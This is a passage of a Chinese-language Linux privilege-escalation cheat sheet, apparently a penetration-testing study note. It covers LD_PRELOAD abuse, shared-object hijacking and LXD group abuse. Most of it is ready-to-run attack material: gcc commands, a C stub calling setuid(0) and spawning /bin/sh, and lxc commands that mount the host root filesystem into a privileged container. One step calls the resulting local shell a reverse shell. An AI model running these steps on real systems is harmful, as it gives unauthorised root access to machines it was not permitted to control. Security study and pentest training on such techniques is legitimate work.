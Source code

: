    对其编译为`.so`动态文件，`gcc -fPIC -shared -o root.so root.c -nostartfiles`

3. 高权限运行程序或命令，指定对应的恶意文件库，`sudo LD_PRELOAD=/tmp/root.so 程序或命令`

### 共享对象劫持提权

不同于共享库提权，针对于新开发的程序和二进制可执行文件。

1. `ldd 程序`查看其所使用的共享对象文件和共享库

2. 找到其程序利用的非标准库依赖

3. 利用`readelf -d 程序 | grep PATH`查看程序自定义的共享库位置

4. 找到自定义的共享库位置，自建链接库的文件到该共享库文件夹，执行程序查看是否缺少函数

5. 创建.c文件，自定义这个函数名，设置uid为root，利用其执行bash或sh

   ```c
   #include<stdio.h>
   #include<stdlib.h>
   
   void 函数名() {
       setuid(0);
       system("/bin/sh -p");
   } 
   ```

6. 编译文件为动态链接文件`gcc c文件 -fPIC -shared -o /共享库/共享对象文件`

7. 执行即可反弹shell

### 利用特权组提权

1. 利用id显示看一下用户所在的特权组
   例如
   ![image-20220827224209592](https://raw.githubusercontent.com/lant34m/pic/main/image-20220827224209592.png)
   ![image-20220827224224052](https://raw.githubusercontent.com/lant34m/pic/main/image-20220827224224052.png)
2. 根据特权组判断使用的提权方法

#### LXC/LXD提权

> lxc（Linux container），Linux自带的容器；
>
> lxd，简单地说，LXD 就是一个提供了 REST API 的 LXC 容器管理器
>
> LXD是Linux系统中用于管理LXC容器的API，提供了很多便利的命令来创建容器（container）、启动等等操作。它将为本地lxd用户组的任何用户执行任务，然而并没有在用户的权限与要执行的功能之间是否匹配做过多的判断。

- LXC的特权容器挂载系统目录
  启动LXD初始化，选项默认即可
  导入`lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine`本地镜像（例子）
  启动`security.privileged`为true的特权容器，启动没有UID映射的容器，使得容器中root用户与主机上的root用户相同`lxc init alpine r00t -c security.privileged=true`
  挂载主机文件系统`lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true`
  在容器中启动shell`lxc start r00t`和`lxc exec r00t /bin/sh`就可以以root身份连接到文件系统
